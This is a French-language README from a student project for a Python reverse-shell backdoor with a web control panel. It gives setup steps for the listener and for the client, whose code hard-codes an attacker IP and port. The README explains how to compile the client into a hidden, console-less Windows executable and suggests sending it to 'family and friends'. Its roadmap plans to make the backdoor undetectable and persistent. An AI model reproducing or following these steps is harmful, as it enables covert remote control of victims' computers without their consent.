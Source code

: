 # Reverse-shell en interface Web

_Dans le cadre du projet 2020 UF infrastucture & Système d'information, nous avons réalisé un reverse shell en python avec un contrôle depuis une interface web, ainsi qu'un déploiement à l'aide de vagrant._

_Réalisé par CEBERIO Pierre **(@PierreYnov)** et USEREAU Lucas **(@Saluc00)**._

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img1.png)

## Sommaire

- [Documentation d'installation](##-documentation-dinstallation)
  - [0. Prérequis](###0-prérequis)
  - [I. Git clone](###i-git-clone)
  - [II. Vagrant](###ii-vagrant)
- [Documentation d'utilisation](##-documentation-dutilisation)
  - [Serveur](###-serveur)
  - [Client](###-client)
- [Pour aller plus loin](##-pour-aller-plus-loin)
- [Crédits](##-crédits)

## Documentation d'installation

_Manuel d'installation étape par étape du reverse shell_

### 0. Prérequis

Le projet demande trois prérequis, avoir **vagrant**, **virtualbox** et le module python **pyinstaller** d'installé sur son PC.

Disponible [ici](https://www.vagrantup.com/downloads.html) !

### I. Git clone

Cloner le repository avec la commande: `git clone https://github.com/Saluc00/UF-Infra-B2.git`.

### II. Vagrant

Suivant le port que vous souhaitez utiliser, changez le port dans le _VagrantFile_ du côté HOST !! **Important** !!

Placez-vous dans le fichier vagrant et faites la commande: `vagrant up`.

_Attendre la fin de l'initialisation du VagrantFile.._

Une fois l'installation du _VagrantFile_ ok, faites le commande `vagrant ssh`.

Pour lancer le serveur python, il se trouve dans `UF-Infra-B2\Multi-Client-Reverse-Shell`.

La commande pour UP le serveur: `python3 Listener.py`

## Documentation d'utilisation

### Serveur

Vous devez tout d'abord ouvrir un port sur votre serveur afin d'écouter dessus et permettre aux pc infectés de s'y connecter. La manière d'ouvrir un port diffère en fonction de votre OS, vous pouvez vous référer à ces liens pour Windows, OSX et Ubuntu :

- https://fr.wikihow.com/ouvrir-des-ports

- https://guide.ubuntu-fr.org/server/firewall.html

Une fois le port que vous avez choisi est ouvert, rendez vous dans le fichier Listener.py et allez à la ligne 341 remplacer le port 9999 par le votre.

Le serveur est maintenant prêt, il suffit de lancer l'écoute et attendre que les clients se connectent :

```
python3 Listener.py
```

La commande `list` permet de lister les clients actuellement connectés, il suffit ensuite de sélectionner le pc sur lequel on veut intervenir avec la commande `select` suivi de l'index du pc.

![img](https://github.com/Saluc00/UF-Infra-B2/blob/master/Doc/img2.png)

Pour quitter le shell sur le pc où l'on est, il suffit d'écrire `quit`.

Pour quitter l'interface Web du Reverse-Shell, il suffit de taper `exit`.

La commande `help` vous donnera les informations détaillés sur chaque commande.

La commande `upload` permet d'envoyer un fichier qu'on a sur le serveur, sur le client ( la commande `download` est encore en réalisation, elle fera l'inverse).

### Client

Afin d'être fonctionnel, il est nécessaire côté client (ReverseBackdoor.py) d'adresser l'IP de votre hôte (qui vous permettra de contrôler les ordinateurs ) à la ligne 164 (listenerIP) ainsi que de donner le port sur lequel écoute votre hôte à la ligne 165 (listenerPort).

_à la ligne 164 et 165:_

```python
  listenerIP = "77.202.221.174" # Ici mettre votre IP
  listenerPort = 9999 # Ici le port que vous avez mis en host dans le fichier vagrant
```

Pour compiler le ReverseBackdoor.py, vous aurez besoin de pyinstaller :

```
pip install pyinstaller
```

Tapez ensuite :

```
pyinstaller --onefile --windowed ReverseBackdoor.py
```

afin d'avoir le fichier ReverseBackdoor.exe en un seul fichier (sans librairie) et qui n'affiche aucune console quand vous l'exécutez mais qui reste en background.

Puis envoyer le fichier .exe créé à toutes votre famille et amis !

## Pour aller plus loin

- Régler les problèmes d'encodage
- Fix la commande `download`
- Avoir l'interface Web SSH sur notre serveur ( dépendance actuel de https://app.shellngn.com/ )
- Automatisation des tâches sur tout les ordinateurs qu'on contrôle ( pas en interactif à la mano, maybe tmux ? )
- FUD la backdoorReverseShell, cacher le processus et le rendre permanent.
- To be continued ...

## Crédits

- Shell python utilisé: https://github.com/mustafadalga/Multi-Client-Reverse-Shell
- Machine virtuelle utilisé sur le serveur d'AFN: https://awayfrom.network/
- Vagrant: https://www.vagrantup.com/
- VirtualBox: https://www.virtualbox.org/
- Python: https://www.python.org/
